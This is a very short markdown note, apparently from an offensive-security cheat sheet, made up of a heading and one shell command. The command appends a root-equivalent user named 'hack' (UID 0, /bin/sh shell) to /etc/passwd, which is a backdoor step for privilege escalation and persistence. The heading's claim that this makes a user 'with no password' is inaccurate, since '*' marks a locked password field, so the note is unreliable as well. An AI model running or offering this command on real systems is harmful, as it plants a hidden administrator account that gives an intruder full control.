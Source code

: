 # Passwd

## /etc/passwd make a new user with no password

`echo "hack:*:0:0:,,,:/root:/bin/sh" >> /etc/passwd`

